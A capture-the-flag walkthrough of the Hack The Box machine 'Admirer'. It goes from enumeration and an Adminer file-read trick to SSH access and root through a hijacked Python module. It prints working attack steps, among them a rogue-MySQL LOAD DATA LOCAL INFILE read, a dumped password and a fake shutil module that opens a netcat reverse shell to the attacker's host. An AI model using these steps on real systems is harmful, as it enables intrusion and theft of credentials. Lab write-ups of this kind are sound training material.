# Admirer


Admirer is an easy box that involved exploiting the php-based Adminer service to dump a file on the website. Then logging in to the target with the SSH credentials. Then hijacking the python path referenced by a script running as root to get a root shell.

# Overview
- Enumeration of the target
- Exploring the FTP server
- Exploiting Adminer
- user.txt
- Privilege escalation
- root.txt

# Enumeration

## Nmap

```bash
finlay@kali:~$ nmap -sC -sV 10.10.10.187
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.187
Host is up (0.029s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:71:e9:21:63:69:9d:cb:dd:84:02:1a:23:97:e1:b9 (RSA)
|   256 c5:95:b6:21:4d:46:a4:25:55:7a:87:3e:19:a8:e7:02 (ECDSA)
|_  256 d0:2d:dd:d0:5c:42:f8:7b:31:5a:be:57:c4:a9:a7:56 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/admin-dir
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Admirer
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.74 seconds
```

We can see FTP, SSH, and a website, it says the website has a robots.txt entry, lets check it out.



Let's enumerate this admin-dir directory with Gobuster.

## Gobuster

```bash
finlay@kali:~$ gobuster dir -u http://10.10.10.187/admin-dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,xml,html -t 200 -q
/contacts.txt (Status: 200)
/credentials.txt (Status: 200)
```

We can take a look at these files.




We find a bunch of credentials, including credentials for an FTP server.

## FTP

Let's login to the FTP server and get the files.



After exploring the files, we find a bunch of credentials, none of which work. However we do discover a utility-scripts folder, where we find a comment in one of the php files saying:

```php
// TODO: Finish implementing this or find a better open source alternative
```

## Gobuster

Our best bet is to assume that they find their alternative, and try to find it with Gobuster.

```bash
finlay@kali:/usr/share/wordlists$ gobuster dir -u http://10.10.10.187/utility-scripts -w /usr/share/wordlists/dirb/big.txt -x php,txt,xml,html -t 200 -q
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htaccess.txt (Status: 403)
/.htaccess.xml (Status: 403)
/.htaccess.html (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.xml (Status: 403)
/.htpasswd.html (Status: 403)
/.htpasswd.php (Status: 403)
/adminer.php (Status: 200)
/info.php (Status: 200)
/phptest.php (Status: 200)
```

Looks like they did find their alternative, we found an Adminer dashboard.



# Exploitation

We see that it is running Adminer 4.6.2, which we find an exploit for [here](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

To exploit this service, we need to connect to a database we own with it, this will then allow us to dump files from the target's site.

## Configuring MySQL Locally

First, install mysql-server so we can host our own database.

```bash
sudo apt-get install mysql-server
```

Second, start the mysql service.

```bash
sudo service mysql start
```

Then login to mysql

```bash
sudo mysql -u root
```

Create our database for adminer to connect to.

```sql
CREATE DATABASE exploit;
```

Create a user so that we can connect from Adminer.

```sql
CREATE USER 'exploituser'@'%' IDENTIFIED BY 'exploitpass';
```

Give the user privileges to connect remotely.

```sql
GRANT ALL ON *.* TO 'exploituser'@'%';
```

Nearly there, just need to flush privileges.

```sql
FLUSH PRIVILEGES;
```

And then restart the mysql service.

```bash
sudo service mysql restart
```

## Dumping a file from Adminer

Then we can connect to our database from Adminer.



Now that we're connected, we need to create a table with a column to dump the index.php file using the ```LOAD DATA LOCAL INFILE```statement, which allows you to import data from a file into a database.

```sql
CREATE TABLE hack (
    dump varchar(255)
);
LOAD DATA LOCAL INFILE "/var/www/html/index.php"
INTO TABLE hack
```



And then by navigating to the hack table, we can see a password that has been dumped:           
`&<h5b~yK3F#{PaPB&dA}{H>`



## SSH

We can use these creds to SSH into the target.



## User.txt

And we find the user.txt flag in waldo's home directory:


# Privilege Escalation

We can start by doing ```sudo -l``` to find out what we can run as sudo.



Interestingly, we can run the `admin_tasks.sh` script, let's take a look.



We can see in this function that it calls a python script, because this script is being run as root, it will call the python script as root.

Let's take a look at `backup.py`:



We can see at the top it imports a function from a python module called `shutil`, we can create a fake module and change the path, so it executes our module as root.

First, we need to create a fake shutil module with a `make_archive()` function so it is imported. I put this file in a folder called `fake_shutil` in /tmp

```python
#!/usr/bin/python3
import os

def make_archive(a, b, c): # We need the 3 parameters just like the real function, even though they won't be used
        os.system("nc -e '/bin/bash' 10.10.15.15 4444")
```

Then, we just need to setup a listener locally for when the target connects.

```bash
finlay@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Finally, we need to run the admin tasks script with the specified python path of our fake module so it gets executed instead of the real one.

```bash
sudo PYTHONPATH=/tmp/fakeshutil /opt/scripts/admin_tasks.sh
```

When we run the script, we select option 6 because that was the function that called the python script.



And we can see that we got a connection on our listener:


## Root.txt

We find the root flag in /root

